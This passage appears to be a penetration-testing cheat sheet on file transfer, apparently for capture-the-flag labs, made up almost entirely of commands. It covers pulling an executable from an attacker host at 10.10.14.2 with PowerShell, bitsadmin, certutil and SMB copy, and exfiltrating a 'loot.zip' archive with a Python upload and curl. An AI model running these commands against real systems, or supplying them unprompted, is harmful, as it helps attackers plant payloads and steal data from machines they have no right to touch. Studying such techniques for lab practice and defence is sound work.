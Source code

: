 #### 🔹 Invoke-WebRequest

```powershell
Invoke-WebRequest -Uri http://10.10.14.2/file.exe -OutFile C:\Temp\file.exe
```

#### 🔹 Bitsadmin (Background)

```cmd
bitsadmin /transfer job /download /priority high http://10.10.14.2/file.exe C:\Temp\file.exe
```

#### 🔹 Certutil

```cmd
certutil -urlcache -split -f http://10.10.14.2/file.exe file.exe
```

#### 🔹 SMB Copy

```cmd
copy \\10.10.14.2\share\file.exe C:\Temp\
```

***

### V. 🧱 Cross-Platform Tricks

#### 🔹 Base64 Encode/Decode (text-only channels)

**Sender:**

```bash
base64 file > file.b64
```

**Receiver:**

```bash
base64 -d file.b64 > file
```

***

#### 🔹 Python HTTP Upload Server (quick exfil)

```python
# On target (upload)
import requests
files={'file':open('loot.zip','rb')}
r=requests.post('http://10.10.14.2:8000',files=files)
```

#### 🔹 Curl Upload

```bash
curl -T loot.zip http://10.10.14.2:8000
```
